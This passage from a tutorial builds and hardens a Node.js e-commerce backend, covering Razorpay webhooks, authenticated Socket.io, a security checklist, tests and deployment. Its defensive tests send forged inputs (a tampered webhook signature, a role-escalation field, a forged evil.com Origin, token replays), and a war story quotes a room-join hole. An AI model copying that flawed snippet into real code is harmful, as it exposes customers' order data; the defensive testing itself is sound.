- Verifying the webhook against `JSON.stringify(req.body)`.
- Using the key *secret* in frontend code.
- Floats for amounts, or rupees instead of paise.
- Not handling duplicate/out-of-order webhooks (`payment.failed` arriving after `captured` must not downgrade).
- Responding 200 *before* the work is durably done, or 500 on duplicates.
- Letting any admin hit the refund button twice.

## Test it

```bash
# (as bob, with a product in his cart, see Chapter 9)
curl -s -b bob.txt -X POST localhost:5000/api/v1/orders/checkout
```
```json
{"status":"success","data":{
  "order":{"_id":"<OID>","status":"pending_payment","amount":99800,"items":[{"name":"Mechanical Keyboard","price":49900,"quantity":2}], ...},
  "payment":{"keyId":"rzp_test_...","razorpayOrderId":"order_Abc123","amount":99800,"currency":"INR"}}}
```

Try to cheat: the endpoint has no body schema at all, so nothing the client sends can change the price. Fetching others' orders:

```bash
curl -s -b admin.txt localhost:5000/api/v1/orders/<BOBS_OID>
# 404 ORDER_NOT_FOUND  (the owner-only rule applies even to admins on the user endpoint; admins use /admin/orders)
```

**Simulate the webhook locally** (no tunnel needed). Take `razorpayOrderId` from the response above:

```bash
set -a; source .env; set +a
BODY='{"event":"payment.captured","payload":{"payment":{"entity":{"id":"pay_TEST1","order_id":"order_Abc123","amount":99800,"status":"captured"}}}}'
SIG=$(printf '%s' "$BODY" | openssl dgst -sha256 -hmac "$RAZORPAY_WEBHOOK_SECRET" | awk '{print $2}')

curl -s -X POST localhost:5000/api/v1/payments/webhook \
  -H 'Content-Type: application/json' -H "X-Razorpay-Signature: $SIG" -H 'X-Razorpay-Event-Id: evt_1' \
  --data-binary "$BODY"
# {"status":"success","data":{"received":true,"duplicate":false}}

# Replay -> deduped
#   ...same command...  ->  {"status":"success","data":{"received":true,"duplicate":true}}

# Tampered body (amount changed) with the old signature
curl -s -X POST localhost:5000/api/v1/payments/webhook -H 'Content-Type: application/json' \
  -H "X-Razorpay-Signature: $SIG" -H 'X-Razorpay-Event-Id: evt_2' \
  --data-binary "${BODY/99800/1}"
# {"status":"fail","code":"INVALID_SIGNATURE","message":"Invalid webhook signature"}

# Now the order is paid, stock decremented, cart empty:
curl -s -b bob.txt localhost:5000/api/v1/orders/<OID>     # "status":"paid"
curl -s localhost:5000/api/v1/products/<PID>              # stock: 25 -> 23
```

**Real webhook with the real test payment:** `ngrok http 5000`, then in the Razorpay dashboard add `https://<id>.ngrok-free.app/api/v1/payments/webhook` with the secret from `.env`.

Admin operations:

```bash
curl -s -b admin.txt 'localhost:5000/api/v1/admin/orders?status=paid'
curl -s -b admin.txt -X PATCH localhost:5000/api/v1/admin/orders/<OID>/status \
  -H 'Content-Type: application/json' -d '{"status":"shipped"}'
# 409 INVALID_TRANSITION  (paid -> shipped skips 'processing')
curl -s -b admin.txt -X PATCH localhost:5000/api/v1/admin/orders/<OID>/status \
  -H 'Content-Type: application/json' -d '{"status":"processing"}'     # 200

# Refund (needs a REAL captured test payment, since Razorpay validates the payment id)
curl -s -b admin.txt -X POST localhost:5000/api/v1/admin/orders/<OID>/refund
# 202 {"status":"success","data":{"refundId":"rfnd_...","status":"processed"}}
```

## Interview corner

**1. Why compute the amount on the server?**
Anything the client sends can be edited (DevTools, a proxy). If the client sent `amount`, someone buys a laptop for ₹1. The server reads prices from the DB and sends Razorpay the total.

**2. Why aren't checkout signatures enough? Why webhooks?**
The checkout callback runs in the user's browser, which can close, drop offline or be tampered with. Webhooks are server-to-server and retried until acknowledged, so they're the reliable record. We still verify the checkout signature as a UX hint.

**3. How do you verify a webhook, and why raw body?**
Compute `HMAC-SHA256(rawBody, webhookSecret)` and compare to `X-Razorpay-Signature` with a constant-time compare. It must be the exact bytes sent. Parsing and re-serializing JSON can change them, so mount `express.raw` for that route before `express.json`.

**4. How do you make webhook handling idempotent?**
Two layers: (1) atomic `SET NX` on the event id to drop duplicate deliveries, released on failure so retries work; (2) conditional state transitions in the DB (`status: {$in: [...]}`), so reprocessing is harmless. Always respond 2xx quickly for duplicates.

**5. How do you avoid double refunds?**
An atomic claim (`findOneAndUpdate` with `refundId: {$exists:false}`) so only one request proceeds. Release it if the gateway call fails, and finalize state from the `refund.processed` webhook.


---

# Chapter 14: Socket.io real-time updates

## Why this exists

HTTP is "ask, then get an answer". The client has to keep *polling* ("is my order paid yet? is it shipped yet?") which wastes requests and feels laggy. **WebSockets** keep one connection open so the server can **push** events the moment something happens: the webhook lands → the customer's screen flips to "Paid ✅" instantly.

**Socket.io** is a library on top of WebSockets that adds auto-reconnect, fallback to long-polling, **rooms**, and an adapter system for scaling.

## Mental model

A **hotel with room service phones.** Each logged-in user gets their own private room (`user:<id>`). When the payment webhook arrives, the server doesn't shout at the whole lobby, it phones **one room**. Admins share a staff room (`admins`).



## Code

### `src/sockets/index.js`

```js
import { Server } from 'socket.io';
import { createAdapter } from '@socket.io/redis-adapter';
import { parse as parseCookie } from 'cookie';
import { config } from '../config/env.js';
import { redis } from '../config/redis.js';
import { ACCESS_COOKIE } from '../utils/cookies.js';
import { AppError } from '../utils/AppError.js';
import { authenticateAccessToken } from '../services/auth.service.js';
import { setIO } from '../services/socket.service.js';
import { logger } from '../utils/logger.js';

export function initSocket(httpServer) {
  const io = new Server(httpServer, {
    // SOCKET.IO HAS ITS OWN CORS CONFIG. Express's cors() middleware does NOT cover it.
    // Forgetting this is the #1 "websocket works in Postman but not in the browser" bug.
    cors: { origin: config.clientOrigins, credentials: true },
  });

  // REDIS ADAPTER: with 2+ server instances, a user's socket lives on ONE of them, but a webhook
  // may land on ANOTHER. The adapter relays emits through Redis pub/sub so
  // io.to('user:42').emit(...) reaches the socket wherever it is. A subscriber connection
  // can't run normal commands, so pub and sub need separate connections.
  const pub = redis.duplicate({ lazyConnect: false });
  const sub = redis.duplicate({ lazyConnect: false });
  io.adapter(createAdapter(pub, sub));

  // AUTHENTICATED HANDSHAKE: reject BEFORE the connection exists, so no unauthenticated socket
  // ever receives a single event.
  io.use(async (socket, next) => {
    try {
      const cookies = parseCookie(socket.handshake.headers.cookie ?? '');
      // Browsers send the httpOnly cookie automatically (client needs withCredentials: true).
      // Non-browser clients (tests, mobile) can pass auth: { token } instead.
      const token = socket.handshake.auth?.token ?? cookies[ACCESS_COOKIE];
      if (!token) return next(new Error('AUTH_REQUIRED'));

      const { user } = await authenticateAccessToken(token); // SAME function the REST middleware uses
      socket.data.user = { id: String(user._id), role: user.role };
      next();
    } catch (err) {
      if (!(err instanceof AppError)) logger.error('Socket auth error:', err.message);
      next(new Error(err instanceof AppError ? err.code : 'AUTH_FAILED'));
    }
  });

  io.on('connection', (socket) => {
    const { id, role } = socket.data.user;

    // The room name is derived from the VERIFIED token. A client can NEVER ask to join "user:<someone else>".
    socket.join(`user:${id}`);
    if (role === 'admin') socket.join('admins');

    socket.emit('connected', { userId: id });
    logger.info(`socket connected user=${id} sid=${socket.id}`);

    socket.on('disconnect', (reason) => logger.info(`socket disconnected user=${id} reason=${reason}`));
  });

  setIO(io);

  return {
    io,
    // io.close() also closes the underlying HTTP server, so it replaces server.close() on shutdown.
    async close() {
      await new Promise((resolve) => io.close(resolve));
      await Promise.all([pub.quit(), sub.quit()]);
    },
  };
}
```

### Final `src/server.js`

```js
import http from 'node:http';
import { config } from './config/env.js';
import { connectDB, disconnectDB } from './config/db.js';
import { connectRedis, disconnectRedis } from './config/redis.js';
import { createApp } from './app.js';
import { initSocket } from './sockets/index.js';
import { logger } from './utils/logger.js';

const app = createApp();
const server = http.createServer(app);

let socketServer;

async function start() {
  await connectDB();
  await connectRedis();
  socketServer = initSocket(server); // attach Socket.io to the SAME http server (same port)
  server.listen(config.port, () => logger.info(`API listening on :${config.port}`));
}

start().catch((err) => {
  logger.error('Failed to start:', err.message);
  process.exit(1);
});

let shuttingDown = false;
async function shutdown(signal, exitCode = 0) {
  if (shuttingDown) return;
  shuttingDown = true;
  logger.info(`${signal} received, shutting down...`);
  setTimeout(() => process.exit(1), 10_000).unref();

  // Stop accepting connections and close sockets (this also closes the HTTP server)
  // BEFORE closing the databases they use.
  if (socketServer) await socketServer.close();
  else server.close();
  await disconnectDB();
  await disconnectRedis();
  process.exit(exitCode);
}

process.on('SIGTERM', () => shutdown('SIGTERM'));
process.on('SIGINT', () => shutdown('SIGINT'));
process.on('unhandledRejection', (reason) => {
  logger.error('Unhandled rejection:', reason);
  shutdown('unhandledRejection', 1);
});
process.on('uncaughtException', (err) => {
  logger.error('Uncaught exception:', err);
  shutdown('uncaughtException', 1);
});
```

### Modify `src/services/auth.service.js`: kick live sockets when sessions are revoked

An access token is only checked at handshake time. A socket opened before "logout everywhere" would keep receiving events. So disconnect it:

```js
import { disconnectUser } from './socket.service.js';
// in logoutAll(), after revokeAllForUser:
  disconnectUser(userId);
// in resetPassword(), after revokeAllForUser:
  disconnectUser(user._id);
```

(The client reconnects automatically, fails the handshake, and the app sends the user to login.)

### `scripts/socket-client.js`: a tiny test client

```js
import { io } from 'socket.io-client';

const socket = io(process.env.API ?? 'http://localhost:5000', {
  auth: { token: process.env.TOKEN }, // browsers would use withCredentials + cookies instead
});

socket.on('connect', () => console.log('connected', socket.id));
socket.on('connect_error', (e) => console.log('connect_error:', e.message));
for (const ev of ['connected', 'order:paid', 'order:new', 'order:status', 'payment:captured', 'payment:failed']) {
  socket.on(ev, (data) => console.log(ev, JSON.stringify(data)));
}
```

## Scaling: sticky sessions

Socket.io may start with **HTTP long-polling** and then *upgrade* to WebSocket. Long-polling is several separate HTTP requests that **must hit the same server**, or the handshake breaks ("Session ID unknown").

Options:

1. **Sticky sessions** at the load balancer (hash by IP or a cookie).
2. Force `transports: ['websocket']` on the client. There's no polling phase, so stickiness isn't needed for the handshake.

nginx example:

```nginx
upstream api {
  ip_hash;                       # sticky by client IP
  server 10.0.0.11:5000;
  server 10.0.0.12:5000;
}
server {
  location /socket.io/ {
    proxy_pass http://api;
    proxy_http_version 1.1;
    proxy_set_header Upgrade $http_upgrade;       # required for WebSocket upgrade
    proxy_set_header Connection "upgrade";
    proxy_set_header Host $host;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_read_timeout 60s;
  }
}
```

**Sticky sessions and the Redis adapter solve two different problems.** Sticky = "my handshake requests land on one node". Adapter = "an emit on node A reaches a socket on node B".

## Pro tip / War story

> **The "works locally, dead in prod" socket.** Everything worked on localhost, but on the staging load balancer, sockets connected and dropped every few seconds. Two causes in a row: (1) the proxy didn't forward the `Upgrade` header, so it silently stayed on polling, and (2) with two instances and no sticky sessions, the polling requests bounced between nodes. We spent a day blaming Socket.io.
>
> **The room-name hole.** A teammate added `socket.on('join', room => socket.join(room))` "so the client can subscribe to its own updates". Any user could then `emit('join', 'user:<victim-id>')` and eavesdrop on another customer's orders. Rooms must be assigned **by the server** from the verified identity, never requested by the client.
>
> **Never trust events from the client.** We only *emit* from server → client. If you add client → server events, validate them like any HTTP body.

## Common mistakes

- Only configuring CORS on Express, not on `new Server(..., { cors })`.
- Authenticating inside `connection` instead of `io.use`. The connection is already open and may have received events.
- Letting the client choose which room to join.
- Using the Redis adapter with the same connection for pub and sub.
- Missing `Upgrade` headers in the proxy.
- Not disconnecting sockets on logout-all or password reset.
- Putting tokens in the query string (`?token=`). It's logged by proxies.

## Test it

```bash
npm run dev
# Terminal 2: bob's socket
export TOKEN=$(grep accessToken bob.txt | awk '{print $7}')
node scripts/socket-client.js
# connected AbC...
# connected {"userId":"<bob-id>"}

# Terminal 3: admin's socket (should also get order:new)
TOKEN=$(grep accessToken admin.txt | awk '{print $7}') node scripts/socket-client.js
```

Unauthenticated:

```bash
TOKEN= node scripts/socket-client.js
# connect_error: AUTH_REQUIRED
TOKEN=garbage node scripts/socket-client.js
# connect_error: INVALID_TOKEN
```

Now trigger events:

1. Run the **webhook simulation** from Chapter 13 for a pending order of Bob's. Terminal 2 prints `payment:captured {...}` and `order:paid {...}`; terminal 3 prints `order:new {...}`.
2. As admin, `PATCH /admin/orders/<OID>/status {"status":"processing"}`. Terminal 2 prints `order:status {"orderId":"...","status":"processing"}`.
3. Start a third client as another user. It prints **nothing** for Bob's events.

(Access tokens last 15 minutes. If you get `TOKEN_EXPIRED`, log in again or call `/auth/refresh` and re-export.)

Browser client snippet:

```js
import { io } from 'socket.io-client';
const socket = io('http://localhost:5000', { withCredentials: true }); // sends the httpOnly cookie
socket.on('order:paid', ({ orderId }) => showToast(`Order ${orderId} paid ✅`));
```

## Interview corner

**1. How do you authenticate a WebSocket connection?**
Run a handshake middleware (`io.use`) that reads the credential (cookie or `auth` payload), verifies it with the same logic as REST, attaches the user to `socket.data`, and calls `next(new Error(...))` to reject. Reject *before* the connection is established.

**2. Why per-user rooms?**
They give a stable address for "send to this user" regardless of how many tabs or devices they have, and the server controls membership so users can't subscribe to others' data.

**3. Why do you need the Redis adapter?**
Rooms live in process memory. With multiple instances, an emit on one node wouldn't reach sockets on another. The adapter relays emits through Redis pub/sub.

**4. Why sticky sessions?**
Long-polling transport spans multiple HTTP requests tied to server-side session state, so they must reach the same node. WebSocket-only transport avoids it.

**5. How is Socket.io CORS different from Express CORS?**
Separate configuration. Socket.io's server handles its own HTTP endpoint (`/socket.io/`), so you must pass `cors` options to the `Server` constructor.

---

# Chapter 15: Security checklist, full-flow tests, deployment

## Part A: Security checklist

Walk through this before every launch. The right-hand column is where we handled it.

| # | Check | Where |
|---|---|---|
| 1 | Secrets only in env, validated at boot, no fallbacks | Ch 3 |
| 2 | `.env` gitignored; `.env.example` committed | Ch 1, 3 |
| 3 | `helmet` headers, `x-powered-by` off | Ch 1 |
| 4 | Rate limit globally and strictly on auth routes | Ch 1, 5 |
| 5 | Body size limits (`10kb` JSON, `100kb` webhook) | Ch 1, 13 |
| 6 | CORS: exact-origin allowlist, never `*` with credentials | Ch 2 |
| 7 | All input validated with zod; `.strict()` against mass assignment | Ch 5, 9 |
| 8 | Passwords: bcrypt cost 12, 72-byte cap, hashing in a model hook | Ch 5 |
| 9 | Generic login errors + constant-time dummy compare | Ch 5 |
| 10 | Reset tokens: random, hashed, expiring, single-use, revoke sessions | Ch 5 |
| 11 | JWT: pinned algorithm, short access TTL, 32+ char secrets, separate secrets | Ch 3, 6 |
| 12 | Cookies: `httpOnly`, `secure` in prod, `sameSite`, scoped refresh path | Ch 6, 7 |
| 13 | CSRF: SameSite + Origin check + JSON-only | Ch 6 |
| 14 | Refresh rotation + hashed storage + reuse detection + family revocation | Ch 7 |
| 15 | 401 vs 403 used correctly; identity from `req.user` only | Ch 8 |
| 16 | RBAC via `authorize`; ownership inside queries (no IDOR) | Ch 9 |
| 17 | Logout revokes server-side (blacklist + refresh family); `tokenVersion` for logout-all | Ch 10 |
| 18 | One error shape; no stacks or driver messages in production | Ch 11 |
| 19 | `unhandledRejection`/`uncaughtException` → graceful restart | Ch 11 |
| 20 | OAuth: `state` checked, only verified emails link, no tokens in URLs | Ch 12 |
| 21 | Prices computed server-side; money in integer paise | Ch 4, 13 |
| 22 | Webhook HMAC over the raw body, timing-safe compare, dedupe, conditional transitions | Ch 13 |
| 23 | Razorpay key secret never sent to the client | Ch 13 |
| 24 | Sockets: authenticated handshake, server-assigned rooms, socket CORS | Ch 14 |
| 25 | No secrets, tokens or bodies in logs | Ch 4, 5 |

**Things this tutorial deliberately leaves for you** (real-world TODOs): email verification and a real mailer for resets, MFA, account lockout/CAPTCHA, a Redis-backed rate-limit store (`rate-limit-redis`) for multi-instance deployments, audit logs, `npm audit` in CI, dependency pinning/lockfile review, DB backups, and stock *reservation* at checkout (we decrement stock on payment, which is simple but can oversell under heavy contention; the log line `OVERSOLD` tells you when it happens).

## Part B: Testing the full flow with supertest

We use Node's built-in test runner plus supertest. Tests talk to a real MongoDB (`ecommerce_test` database) and Redis (database `1`). Razorpay's network API is not called, so we seed an order and payment and send a **correctly signed webhook**, exactly as Razorpay would.

### `.env.test`

```bash
NODE_ENV=test
PORT=5001
SERVER_URL=http://localhost:5001
CLIENT_URL=http://localhost:3000
CLIENT_ORIGINS=http://localhost:3000
MONGO_URI=mongodb://localhost:27017/ecommerce_test
REDIS_URL=redis://localhost:6379/1
JWT_ACCESS_SECRET=test-access-secret-test-access-secret-1234
JWT_REFRESH_SECRET=test-refresh-secret-test-refresh-secret-5678
RAZORPAY_KEY_ID=rzp_test_dummy
RAZORPAY_KEY_SECRET=dummy_key_secret
RAZORPAY_WEBHOOK_SECRET=test_webhook_secret
```

(`node --env-file=.env.test` sets these first, and `dotenv` never overrides variables that already exist, so your real `.env` can't leak into tests.)

### `tests/helpers.js`

```js
import request from 'supertest';
import mongoose from 'mongoose';
import { createApp } from '../src/app.js';
import { connectDB, disconnectDB } from '../src/config/db.js';
import { connectRedis, disconnectRedis, redis } from '../src/config/redis.js';

export const app = createApp();

export async function setup() {
  await connectDB();
  await connectRedis();
  // Empty every collection and the Redis test DB. Indexes stay.
  await Promise.all(Object.values(mongoose.models).map((m) => m.deleteMany({})));
  await redis.flushdb();
}

export async function teardown() {
  await disconnectDB();
  await disconnectRedis();
}

// supertest agent = a cookie jar. Like a browser.
export const newAgent = () => request.agent(app);

export const cookieValue = (res, name) =>
  (res.headers['set-cookie'] ?? []).find((c) => c.startsWith(`${name}=`))?.split(';')[0].split('=')[1];
```

### `tests/flow.test.js`

```js
import { describe, test, before, after } from 'node:test';
import assert from 'node:assert/strict';
import crypto from 'node:crypto';
import request from 'supertest';
import { app, setup, teardown, newAgent, cookieValue } from './helpers.js';
import { User } from '../src/models/User.js';
import { Order } from '../src/models/Order.js';
import { Payment } from '../src/models/Payment.js';
import { Product } from '../src/models/Product.js';

const API = '/api/v1';
const PASSWORD = 'Passw0rdOK';

const signWebhook = (body) =>
  crypto.createHmac('sha256', process.env.RAZORPAY_WEBHOOK_SECRET).update(body).digest('hex');

describe('e-commerce backend: full flow', () => {
  before(setup);
  after(teardown);

  const bob = newAgent();
  const eve = newAgent();
  const admin = newAgent();
  let product;
  let order;

  test('register: sets httpOnly cookies, hides secrets, rejects mass assignment', async () => {
    const res = await bob
      .post(`${API}/auth/register`)
      .send({ name: 'Bob', email: 'bob@example.com', password: PASSWORD })
      .expect(201);

    assert.equal(res.body.data.user.password, undefined);
    assert.equal(res.body.data.user.tokenVersion, undefined);
    const cookies = res.headers['set-cookie'];
    assert.ok(cookies.some((c) => c.startsWith('accessToken=') && c.includes('HttpOnly')));
    assert.ok(cookies.some((c) => c.startsWith('refreshToken=') && c.includes('Path=/api/v1/auth')));

    await request(app)
      .post(`${API}/auth/register`)
      .send({ name: 'Evil', email: 'evil@example.com', password: PASSWORD, role: 'admin' })
      .expect(400);

    await eve.post(`${API}/auth/register`).send({ name: 'Eve', email: 'eve@example.com', password: PASSWORD }).expect(201);
  });

  test('login errors are generic', async () => {
    const wrongPass = await request(app).post(`${API}/auth/login`).send({ email: 'bob@example.com', password: 'nope' });
    const noUser = await request(app).post(`${API}/auth/login`).send({ email: 'ghost@example.com', password: 'nope' });
    assert.equal(wrongPass.status, 401);
    assert.deepEqual(wrongPass.body, noUser.body);
  });

  test('/me requires auth', async () => {
    await request(app).get(`${API}/users/me`).expect(401);
    const res = await bob.get(`${API}/users/me`).expect(200);
    assert.equal(res.body.data.user.email, 'bob@example.com');
  });

  test('RBAC: user gets 403, admin can create a product', async () => {
    await User.create({ name: 'Admin', email: 'admin@example.com', password: PASSWORD, role: 'admin' });
    await admin.post(`${API}/auth/login`).send({ email: 'admin@example.com', password: PASSWORD }).expect(200);

    const payload = { name: 'Keyboard', price: 49900, stock: 25, category: 'electronics' };
    await bob.post(`${API}/products`).send(payload).expect(403);
    const res = await admin.post(`${API}/products`).send(payload).expect(201);
    product = res.body.data.product;

    const list = await request(app).get(`${API}/products`).expect(200);
    assert.equal(list.body.data.total, 1);
  });

  test('cart: add item, total computed from DB price', async () => {
    const res = await bob.put(`${API}/cart/items`).send({ productId: product._id, quantity: 2 }).expect(200);
    assert.equal(res.body.data.cart.total, 99800);
  });

  test('order is owner-only (IDOR)', async () => {
    const bobUser = await User.findOne({ email: 'bob@example.com' });
    order = await Order.create({
      user: bobUser._id,
      items: [{ product: product._id, name: product.name, price: product.price, quantity: 2 }],
      amount: product.price * 2,
      razorpayOrderId: 'order_TEST1',
    });
    await Payment.create({ order: order._id, user: bobUser._id, razorpayOrderId: 'order_TEST1', amount: order.amount });

    await bob.get(`${API}/orders/${order._id}`).expect(200);
    await eve.get(`${API}/orders/${order._id}`).expect(404); // not 403: don't confirm it exists
    await request(app).get(`${API}/orders/${order._id}`).expect(401);
  });

  test('webhook: bad signature rejected; good one marks order paid; replay is a no-op', async () => {
    const body = JSON.stringify({
      event: 'payment.captured',
      payload: { payment: { entity: { id: 'pay_TEST1', order_id: 'order_TEST1', amount: 99800, status: 'captured' } } },
    });
    const send = (sig, eventId) =>
      request(app)
        .post(`${API}/payments/webhook`)
        .set('Content-Type', 'application/json')
        .set('X-Razorpay-Signature', sig)
        .set('X-Razorpay-Event-Id', eventId)
        .send(body);

    await send('deadbeef', 'evt_bad').expect(400);

    const ok = await send(signWebhook(body), 'evt_1').expect(200);
    assert.equal(ok.body.data.duplicate, false);

    assert.equal((await Order.findById(order._id)).status, 'paid');
    assert.equal((await Product.findById(product._id)).stock, 23);

    const replay = await send(signWebhook(body), 'evt_1').expect(200);
    assert.equal(replay.body.data.duplicate, true);
    assert.equal((await Product.findById(product._id)).stock, 23); // not decremented twice
  });

  test('refresh rotation + reuse detection revokes the family', async () => {
    const a = newAgent();
    const login = await a.post(`${API}/auth/login`).send({ email: 'bob@example.com', password: PASSWORD }).expect(200);
    const oldRefresh = cookieValue(login, 'refreshToken');

    const rotated = await request(app).post(`${API}/auth/refresh`).set('Cookie', [`refreshToken=${oldRefresh}`]).expect(200);
    const newRefresh = cookieValue(rotated, 'refreshToken');
    assert.notEqual(newRefresh, oldRefresh);

    const replay = await request(app).post(`${API}/auth/refresh`).set('Cookie', [`refreshToken=${oldRefresh}`]).expect(401);
    assert.equal(replay.body.code, 'TOKEN_REUSE');

    // The legit, newer token died with the family.
    await request(app).post(`${API}/auth/refresh`).set('Cookie', [`refreshToken=${newRefresh}`]).expect(401);
  });

  test('logout blacklists the access token; logout-all kills other devices', async () => {
    const d1 = newAgent();
    const login = await d1.post(`${API}/auth/login`).send({ email: 'bob@example.com', password: PASSWORD }).expect(200);
    const at = cookieValue(login, 'accessToken');

    await d1.post(`${API}/auth/logout`).expect(204);
    const revoked = await request(app).get(`${API}/users/me`).set('Authorization', `Bearer ${at}`).expect(401);
    assert.equal(revoked.body.code, 'TOKEN_REVOKED');

    const dev1 = newAgent();
    const dev2 = newAgent();
    await dev1.post(`${API}/auth/login`).send({ email: 'bob@example.com', password: PASSWORD }).expect(200);
    await dev2.post(`${API}/auth/login`).send({ email: 'bob@example.com', password: PASSWORD }).expect(200);
    await dev1.post(`${API}/auth/logout-all`).expect(204);
    await dev2.get(`${API}/users/me`).expect(401);
  });

  test('CSRF guard rejects state-changing requests from untrusted origins', async () => {
    const res = await request(app).post(`${API}/auth/login`).set('Origin', 'http://evil.com').send({ email: 'a@b.com', password: 'x' });
    assert.equal(res.status, 403);
    assert.equal(res.body.code, 'CSRF_ORIGIN_REJECTED');
  });
});
```

Run (Mongo and Redis from `docker compose up -d`):

```bash
npm test
```

Expected:

```
✔ register: sets httpOnly cookies, hides secrets, rejects mass assignment
✔ login errors are generic
✔ /me requires auth
✔ RBAC: user gets 403, admin can create a product
✔ cart: add item, total computed from DB price
✔ order is owner-only (IDOR)
✔ webhook: bad signature rejected; good one marks order paid; replay is a no-op
✔ refresh rotation + reuse detection revokes the family
✔ logout blacklists the access token; logout-all kills other devices
✔ CSRF guard rejects state-changing requests from untrusted origins
ℹ pass 10  ℹ fail 0
```

`app` here is imported directly (no `listen()`), which is why we split `app.js` and `server.js` in Chapter 1.

## Part C: Deployment notes

**1. Trust proxy.** Behind nginx/Render/Heroku/AWS ALB set `TRUST_PROXY=1` (the number of proxies in front). Otherwise `req.ip` is the proxy, so rate limits hit everyone at once, and `req.protocol` says `http`.

**2. HTTPS and secure cookies.** Terminate TLS at the proxy. `NODE_ENV=production` makes our cookies `Secure`. If frontend and API are on different *sites* (`shop.com` vs `api.other.com`), set `COOKIE_SAMESITE=none` (this forces `Secure`), put the frontend in `CLIENT_ORIGINS`, and use `credentials: 'include'` on the client. Same-site subdomains (`shop.com` ↔ `api.shop.com`) can keep `lax`.

**3. Environment management.** Set variables in your platform (Render/Fly/AWS SSM/Doppler/Kubernetes Secrets), not files. Different secrets per environment. Rotate JWT secrets on a schedule (users will re-login). Use **Razorpay live keys + a new webhook secret** in production, and register the production webhook URL.

**4. Webhook reachability.** The webhook URL must be public HTTPS and *not* behind your auth, CORS or login rate limit.

**5. Process management.** Run under Docker/Kubernetes/PM2 so crashes (`unhandledRejection` → exit) restart automatically. Expose `GET /api/v1/health` as the liveness probe; for readiness, check Mongo and Redis too.

**6. Multi-instance checklist.** Redis adapter for Socket.io ✔, sticky sessions or websocket-only transport, rate limiter store in Redis, no in-memory state anywhere else.

**7. MongoDB.** Use a managed cluster (Atlas) with a least-privilege user, IP allowlist and backups. Build indexes in a deploy step if you disable `autoIndex` on big collections.

**8. Dockerfile**

```dockerfile
FROM node:22-alpine
WORKDIR /app
ENV NODE_ENV=production
COPY package*.json ./
RUN npm ci --omit=dev
COPY src ./src
USER node
EXPOSE 5000
CMD ["node", "src/server.js"]
```

**9. Logs and monitoring.** Ship stdout to your log service, alert on `5xx` rate, `OVERSOLD`, repeated `TOKEN_REUSE` and webhook signature failures. Those are early warnings.

## Interview corner

**1. What changes between dev and prod for cookie auth?**
HTTPS plus `Secure` cookies, `trust proxy` set correctly, exact CORS origins, `SameSite` chosen for your domain layout, and secrets from a secret manager.

**2. How do you test an authenticated API?**
Supertest agents keep cookies like a browser. Test the full journey (register → login → protected route → RBAC → ownership), plus negative paths (401, 403, IDOR, tampered signatures, replays).

**3. How do you test payment webhooks without Razorpay?**
Sign a payload with the webhook secret exactly as the provider does and POST the raw string. Assert state changes, and replay it to prove idempotency.

**4. What would you monitor in production for auth abuse?**
Spikes in 401s, `TOKEN_REUSE` events, login rate-limit hits and webhook signature failures.

**5. First three things you'd harden next?**
Email verification, a Redis-backed rate limiter plus account lockout/CAPTCHA, and stock reservation at checkout.

## Final assembled `src/app.js` and `src/routes/index.js`

After all chapters, these files should look exactly like this (use them to compare with your copy):

### `src/app.js`

```js
import express from 'express';
import helmet from 'helmet';
import cors from 'cors';
import morgan from 'morgan';
import cookieParser from 'cookie-parser';
import passport from 'passport';
import { config } from './config/env.js';
import { corsOptions } from './config/cors.js';
import { configurePassport } from './config/passport.js';
import { globalLimiter } from './middleware/rateLimit.js';
import { csrfGuard } from './middleware/csrfGuard.js';
import { notFound, errorHandler } from './middleware/errorHandler.js';
import webhookRoutes from './routes/webhook.routes.js';
import routes from './routes/index.js';

export function createApp() {
  const app = express();

  app.set('trust proxy', config.trustProxy);

  app.use(helmet());
  app.use(cors(corsOptions));
  app.use(morgan(config.isProd ? 'combined' : 'dev'));
  app.use(globalLimiter);

  // Raw body for the signature check. MUST be before express.json().
  app.use('/api/v1/payments/webhook', webhookRoutes);

  app.use(express.json({ limit: '10kb' }));
  app.use(cookieParser());
  app.use(csrfGuard);

  configurePassport();
  app.use(passport.initialize());

  app.use('/api/v1', routes);

  app.use(notFound);
  app.use(errorHandler);

  return app;
}
```

### `src/routes/index.js`

```js
import { Router } from 'express';
import authRoutes from './auth.routes.js';
import userRoutes from './user.routes.js';
import productRoutes from './product.routes.js';
import cartRoutes from './cart.routes.js';
import orderRoutes from './order.routes.js';
import paymentRoutes from './payment.routes.js';
import adminRoutes from './admin.routes.js';

const router = Router();

router.get('/health', (req, res) => {
  res.json({ status: 'success', data: { uptime: process.uptime() } });
});

router.use('/auth', authRoutes);
router.use('/users', userRoutes);
router.use('/products', productRoutes);
router.use('/cart', cartRoutes);
router.use('/orders', orderRoutes);
router.use('/payments', paymentRoutes);
router.use('/admin', adminRoutes);

export default router;
```

### `src/routes/auth.routes.js` (final)

```js
import { Router } from 'express';
import { z } from 'zod';
import { validate } from '../middleware/validate.js';
import { authLimiter } from '../middleware/rateLimit.js';
import { authenticate, optionalAuth } from '../middleware/auth.js';
import * as ctrl from '../controllers/auth.controller.js';
import {
  registerSchema,
  loginSchema,
  forgotPasswordSchema,
  resetPasswordSchema,
} from '../validators/auth.validators.js';

const router = Router();

const providerParam = { params: z.object({ provider: z.enum(['google', 'github', 'discord']) }) };

router.post('/register', authLimiter, validate(registerSchema), ctrl.register);
router.post('/login', authLimiter, validate(loginSchema), ctrl.login);
router.post('/refresh', ctrl.refresh);
router.post('/logout', optionalAuth, ctrl.logout);
router.post('/logout-all', authenticate, ctrl.logoutAll);
router.post('/forgot-password', authLimiter, validate(forgotPasswordSchema), ctrl.forgotPassword);
router.post('/reset-password', authLimiter, validate(resetPasswordSchema), ctrl.resetPassword);

// OAuth (keep last: ':provider' is a wildcard segment)
router.get('/:provider', validate(providerParam), ctrl.oauthStart);
router.get('/:provider/callback', validate(providerParam), ctrl.oauthCallback);

export default router;
```

### `src/routes/user.routes.js` (final)

```js
import { Router } from 'express';
import { authenticate } from '../middleware/auth.js';
import { validate } from '../middleware/validate.js';
import * as ctrl from '../controllers/user.controller.js';
import { updateMeSchema } from '../validators/user.validators.js';
import { idParamSchema } from '../validators/product.validators.js';

const router = Router();
router.use(authenticate);

router.get('/me', ctrl.getMe);
router.patch('/me', validate(updateMeSchema), ctrl.updateMe);
router.get('/me/sessions', ctrl.listSessions);
router.delete('/me/sessions/:id', validate(idParamSchema), ctrl.revokeSession);

export default router;
```

---

# Appendix

## A. Status code cheat sheet

| Code | Meaning | Where we use it |
|---|---|---|
| 200 OK | Success with a body | reads, updates, login |
| 201 Created | Resource created | register, create product, checkout |
